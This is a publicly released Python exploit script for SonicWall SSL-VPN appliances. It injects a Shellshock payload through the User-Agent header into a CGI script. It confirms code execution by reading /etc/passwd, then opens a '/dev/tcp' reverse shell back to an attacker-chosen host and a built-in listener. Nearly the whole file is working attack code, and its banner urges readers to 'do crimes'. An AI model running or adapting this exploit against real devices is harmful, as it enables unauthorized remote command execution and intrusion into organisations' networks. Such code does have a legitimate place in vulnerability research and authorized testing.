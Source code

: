 #!/usr/bin/python
# coding: utf-8
# Author: Darren Martyn
# Credit: Phineas Fisher
# Notes:
# This exploit basically implements the exploits Phineas Fisher used to pwn Hacking Team 
# and the Cayman Trust Bank place. It uses the Shellshock vulnerability to gain a command
# execution primitive as the "nobody" user in the cgi-bin/jarrewrite.sh web-script, spawns
# a trivial reverse shell using /dev/tcp.
# There is a fairly trivial LPE in these that gets you root by abusing setuid dos2unix, but
# implementing that is left as an exercise for the reader. I've seen a few approaches, and 
# would be interested in seeing yours.
# There is another LPE that works only on some models which I also have removed from this.
# Details: https://darrenmartyn.ie/2021/01/24/visualdoor-sonicwall-ssl-vpn-exploit/
import requests
import sys
import telnetlib
import socket
from threading import Thread
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
import time

def banner():
    print """
                                                         
             88                                      88  
             ""                                      88  
                                                     88  
8b       d8  88  ,adPPYba,  88       88  ,adPPYYba,  88  
`8b     d8'  88  I8[    ""  88       88  ""     `Y8  88  
 `8b   d8'   88   `"Y8ba,   88       88  ,adPPPPP88  88  
  `8b,d8'    88  aa    ]8I  "8a,   ,a88  88,    ,88  88  
    "8"      88  `"YbbdP"'   `"YbbdP'Y8  `"8bbdP"Y8  88  
                                                         
                                                         
                                                         
             88                                          
             88                                          
             88                                          
     ,adPPYb,88   ,adPPYba,    ,adPPYba,   8b,dPPYba,    
    a8"    `Y88  a8"     "8a  a8"     "8a  88P'   "Y8    
    8b       88  8b       d8  8b       d8  88            
    "8a,   ,d88  "8a,   ,a8"  "8a,   ,a8"  88            
     `"8bbdP"Y8   `"YbbdP"'    `"YbbdP"'   88   
    SonicWall SSL-VPN Appliance Remote Exploit
Public Release (Jan 2021). Author: Darren Martyn. Credit
goes to Phineas Fisher for this. Stay inside, do crimes.
    """ 

def handler(lp): # handler borrowed from Stephen Seeley.
    print "(+) starting handler on port %d" %(lp)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", lp))
    s.listen(1)
    conn, addr = s.accept()
    print "(+) connection from %s" %(addr[0])
    t.sock = conn
    print "(+) pop thy shell!"
    t.interact()

def execute_command(target, command):
    url = target + "/cgi-bin/jarrewrite.sh"
    headers = {"User-Agent": "() { :; }; echo ; /bin/bash -c '%s'" %(command)}
    r = requests.get(url=url, headers=headers, verify=False)
    return r.text

def check_exploitable(target):
    print "(+) Testing %s for pwnability..." %(target)
    output = execute_command(target=target, command="cat /etc/passwd")
    if "root:" in output:
        print "(*) We can continue, time to wreck this shit."
        return True
    else:
        return False

def pop_reverse_shell(target, cb_host, cb_port):
    print "(+) Sending callback to %s:%s" %(cb_host, cb_port)
    backconnect = "nohup bash -i >& /dev/tcp/%s/%s 0>&1 &" %(cb_host, cb_port)
    execute_command(target=target, command=backconnect)

def hack_the_planet(target, cb_host, cb_port):
    if check_exploitable(target) == True:
        pass
    else:
        sys.exit("(-) Target not exploitable...")
    handlerthr = Thread(target=handler, args=(int(cb_port),))
    handlerthr.start()
    pop_reverse_shell(target=target, cb_host=cb_host, cb_port=cb_port)

def main(args):
    banner()
    if len(args) != 4:
        sys.exit("use: %s https://some-vpn.lol:8090 hacke.rs 1337" %(args[0]))
    hack_the_planet(target=args[1], cb_host=args[2], cb_port=args[3])

if __name__ == "__main__":
    main(args=sys.argv)